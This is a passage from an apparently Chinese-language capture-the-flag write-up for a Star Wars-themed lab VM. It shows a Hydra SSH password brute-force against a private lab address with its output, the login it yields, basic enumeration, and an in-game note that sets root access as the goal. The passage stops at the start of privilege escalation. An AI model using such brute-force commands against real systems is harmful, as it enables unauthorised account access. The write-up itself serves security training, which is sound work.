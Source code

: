 使用 Hydra 进行爆破：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ hydra -l erso -P pass ssh://192.168.205.210 -s 10110 -I -u -f -e nsr -t 64    
\Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-15 04:46:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 20 tasks per 1 server, overall 20 tasks, 20 login tries (l:1/p:20), ~1 try per task
[DATA] attacking ssh://192.168.205.210:10110/
[10110][ssh] host: 192.168.205.210   login: erso   password: lyra13
[STATUS] attack finished for 192.168.205.210 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-15 04:46:22
```

成功爆破出密码为 `lyra13`。
登录 SSH：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ ssh erso@192.168.205.210 -p 10110
# ... (Login banner) ...
erso@deathStar1:~$ id
uid=1000(erso) gid=1000(erso) groups=1000(erso)
```

成功登录用户 `erso`。

### 5. 提权

查看 `sudo` 权限和家目录下的文件：

```bash
erso@deathStar1:~$ sudo -l
sudo: unable to resolve host deathStar1
[sudo] password for erso: 
Sorry, user erso may not run sudo on deathStar1.
erso@deathStar1:~$ ls -al
total 28
drwxr-xr-x 3 erso erso 4096 May  3  2020 .
drwxr-xr-x 3 root root 4096 May  3  2020 ..
lrwxrwxrwx 1 root root    9 May  3  2020 .bash_history -> /dev/null
-rw-r--r-- 1 erso erso  220 May  3  2020 .bash_logout
-rw-r--r-- 1 erso erso 3631 May  3  2020 .bashrc
drwx------ 2 erso erso 4096 May  3  2020 .cache
-rw-r--r-- 1 erso erso  690 May  3  2020 .profile
-rw------- 1 erso erso  369 May  3  2020 warning.txt
erso@deathStar1:~$ cat warning.txt 
Message from GALEN ERSO:
This is your chance. Destroy the plans of the Galactic Empire. I know that Lord Vader will not like this at all. But, this will be my chance for redemption. I hope you have enough knowledge to help destroy this new weapon.
Explore the system and get 'root access' to read the secret message located at '/root/message.txt'. 
Hack or fail!!
```
